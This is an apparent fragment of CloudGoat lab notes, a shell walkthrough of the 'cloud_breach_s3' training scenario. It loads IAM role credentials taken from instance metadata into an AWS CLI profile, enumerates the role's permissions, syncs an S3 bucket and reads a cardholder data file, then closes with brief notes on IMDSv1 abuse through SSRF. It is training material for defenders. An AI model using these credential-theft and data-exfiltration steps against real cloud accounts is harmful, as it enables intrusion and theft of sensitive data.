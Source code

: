 ```bash
# This command returns the access key ID, secret access key and the session token of the IAM instance profile attached to the EC2 Instance. This credential is a temporary one, as it has an expiration date.
TEMROFILE='lambdaManager'
TEMROFILE_AWS_ACCESS_KEY_ID=`echo $IAMROLEINFO | jq -r .AccessKeyId`
TEMROFILE_AWS_AWS_SECRET_ACCESS_KEY=`echo $IAMROLEINFO | jq -r .SecretAccessKey`
TEMROFILE_AWS_SESSION_TOKEN=`echo $IAMROLEINFO | jq -r .Token`
# Configure the IAM credential on AWS CLI
# aws configure –profile <insert profile name here>
echo "[$TEMROFILE]
REGION = $AWS_REGION
AWS_ACCESS_KEY_ID = $TEMROFILE_AWS_ACCESS_KEY_ID
AWS_SECRET_ACCESS_KEY = $TEMROFILE_AWS_AWS_SECRET_ACCESS_KEY
AWS_SESSION_TOKEN = $TEMROFILE_AWS_SESSION_TOKEN
" | crudini --merge $INFILE
echo "Set creds for profile $TEMROFILE in $INFILE"



# ------------- 3. use enumerate-iam script to quickly verify the role permissions.
python enumerate-iam.py \
    --access-key $TEMROFILE_AWS_ACCESS_KEY_ID \
    --secret-key $TEMROFILE_AWS_AWS_SECRET_ACCESS_KEY \
    --session-token $TEMROFILE_AWS_SESSION_TOKEN


# ------------- 4. List the s3 bucket
# list the buckets
aws s3 ls \
    -–profile $TEMROFILE
# copy the files from the s3 bucket to a new folder.
aws s3 sync s3://BUCKET-NAME ./datafile \
    -–profile $TEMROFILE

cd ./datafile
head cardholder_data_primary.csv



# ------------- 4. destroy the resources created during this lab:
./cloudgoat.py destroy cloud_breach_s3


```

---


#### IMDSv2

IMDSv1
- has been widely exploited using web application vulnerabilities in web applications running on EC2 to gain access to IAM credentials.
- such as Server Side Request Forgery (SSRF), Command Injection etc
- AWS released an update to <font color=red> EC2 instance metadata service </font> for querying instance metadata values.
